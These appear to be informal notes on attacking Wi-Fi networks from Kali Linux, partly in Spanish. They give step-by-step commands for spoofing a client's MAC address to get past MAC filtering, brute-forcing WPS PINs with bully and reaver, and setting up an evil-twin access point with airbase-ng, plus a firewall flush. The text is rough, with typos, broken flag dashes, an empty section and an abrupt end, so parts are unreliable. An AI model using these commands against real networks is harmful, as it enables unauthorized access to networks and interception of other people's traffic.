 DELETE TABLES

kali > sudo iptables -F

## 5 Wi-Fi Networks (802.11) ##
### Airodump ng mac spoofing ###
It isnt necesary to know the bssid ... if we know the mac of the router wifi we can acces on it.

Ver las macs de usuarios en una ssid oculta (si ha filtrado las macs de los usuarios autorizados )

kali > airodump-ng –c 11 –a –bssid < mac >

changing your mac

kali> ifconfig wlan0 down

Then, use macchanger to spoof the MAC address making it the same as the connected client’s MAC.

kali > macchanger –m < mac > wlan0

kali > ifconfig wlan0 up

WEP insecure
wpa -wpa2 more secure
### ATTACK WITH AERODUMP (THE CLASSICAL) ###


### HACKING WPS ###

(finding wifis with wps)
kali > wash –i wlan0mon

we can brute force the PIN with either

(DIFFERENT PROGRAMS THAT DO THE SAME APARENTLY)
To use bully, enter:

kali > bully wlan0mon –b 00:11:22:33:44:55 –e NTGR_VMB_1462061001–c 11

To use reaver, enter the following:

kali > reaver –i wlan0mon –b 00:11:22:33:44:55 –vv

Make certain that you replace the MAC address with the actual MAC address of the target AP, the actual
SSID of the target AP, and the actual channel the AP is broadcasting on.
### Build our Evil Twin ###

To do so, we need another tool from the aircrack-ng suite, airbase-
ng.

kali > airbase-ng –a aa:bb:cc:dd:ee:ff --essid hackers-arise –c 6
wlan0mon

Where:
aa:bb:cc:dd:ee:ff is the MAC address of the new Evil Twin AP

--essid hackers-arise is the name of the Evil Twin AP
